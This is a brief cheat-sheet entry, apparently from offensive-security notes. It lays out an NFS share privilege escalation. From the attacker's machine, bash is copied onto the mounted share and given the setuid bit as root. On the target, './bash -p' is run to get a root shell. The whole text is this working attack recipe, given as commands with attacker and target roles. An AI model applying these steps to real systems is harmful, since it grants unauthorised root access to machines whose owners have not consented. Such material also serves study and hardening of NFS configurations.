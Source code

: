 ## Precondition

Share is mounted to a local directory and user has access to the remote computer _(ssh for example)_.

## On local computer/attacker

```
sudo cp /bin/bash <directory>
sudo chmod +s <directory>/bash
```

copy bash to mounted share and allow running the file as the user who created it (_root_).

## On remote computer/target

```
./bash -p
```

run bash as root.